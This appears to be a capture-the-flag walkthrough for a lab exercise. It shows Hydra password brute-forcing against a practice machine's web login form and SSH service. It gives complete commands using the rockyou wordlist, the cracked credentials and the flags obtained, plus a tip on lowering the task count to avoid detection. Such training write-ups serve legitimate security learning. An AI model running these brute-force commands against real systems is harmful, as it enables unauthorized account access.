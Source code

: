 
## 🔹 Hydra Command Syntax
```
hydra -l <username> -P <wordlist> <target> <protocol> [options]
```
- `-l <username>` → set the username  
- `-P <wordlist>` → set the password wordlist  
- `<target>` → the target IP or domain  
- `<protocol>` → service to brute force (ssh, ftp, http-post-form, etc.)  
- `-t` → number of parallel tasks (default 16, but you can reduce to avoid detection)  
- `-vV` → verbose mode, shows all attempts  



## 🔹 Example 1: Brute Force Web Login (HTTP POST Form)
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.1.164 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```
### Explanation:
- `/login` → the login page path  
- `username=^USER^&password=^PASS^` → tells Hydra where to place usernames and passwords  
- `F=incorrect` → failure message seen when login fails  
- This command found:  
  - Username: `molly`  
  - Password: `sunshine`  

👉 Login to the website using `molly : sunshine` → **Flag 1**



## 🔹 Example 2: Brute Force SSH Login
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.201.1.164 -t 4
```
### Explanation:
- `ssh://10.201.1.164` → tells Hydra to attack SSH service on target  
- `-t 4` → run 4 tasks in parallel  
- This command found:  
  - Username: `molly`  
  - Password: `butterfly`  

👉 SSH login using:
```
ssh molly@10.201.1.164
```
Password: `butterfly` → **Flag 2**



## 🔹 Summary of Findings
- **Web Password** → `sunshine` → gave **Flag 1**  
- **SSH Password** → `butterfly` → gave **Flag 2**
